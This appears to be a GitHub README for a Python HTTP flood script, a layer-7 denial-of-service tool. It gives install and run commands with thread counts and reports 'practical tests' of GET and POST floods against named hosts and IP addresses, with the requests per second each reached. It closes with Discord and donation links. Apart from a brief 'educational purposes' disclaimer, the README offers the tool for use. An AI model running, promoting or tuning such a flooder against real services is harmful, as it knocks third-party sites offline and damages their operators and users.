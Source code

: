 # Python HTTP Flood [![Views](https://hits.sh/github.com/e43bpyflooden/hits.svg)](https://github.com/e43b/Kemono-and-Coomer-Downloader/)

###### [![](img/en-flag.svg) English](README.md) | [![](img/br.png) Português](README-pt.md)

This is a simple HTTP Flood script developed in Python.

## Installation
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
Example: python main.py http://51.159.30.249 POST 1500
```

**Note: This script should only be used for educational purposes. It is not recommended or ethical to use this script on sites without permission.**

## Machine Setup and Testing
The script was run on a virtual machine with the following specifications:
- CPU: 1 core
- RAM: 2GB
- Internet Speed: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (measured with speedtest-cli)

## Test Configuration
Tests were conducted on different sites to evaluate performance at layer 7 (L7 Non Protected and L7 Non Protected SSL).

### Practical Tests with POST Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Command: `python main.py http://142.171.195.145/HIT POST 500`
- Requests per second:
  - Maximum: 1500
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Command: `python main.py https://nodec.mediathektv.com POST 700`
- Requests per second:
  - Maximum: 2800
  - Average: 1500

### Practical Tests with GET Method
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Command: `python main.py http://142.171.195.145/HIT GET 500`
- Requests per second:
  - Maximum: 3000
  - Average: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Command: `python main.py https://nodec.mediathektv.com GET 700`
- Requests per second:
  - Maximum: 2200
  - Average: 1500

## Author
The creator of this tool is [E43b](https://github.com/e43b/).

- **Discord:** [Server](https://discord.gg/CsBMMXBz7t)
- **Donation:** [Donation Link](https://oxapay.com/donate/40874860)
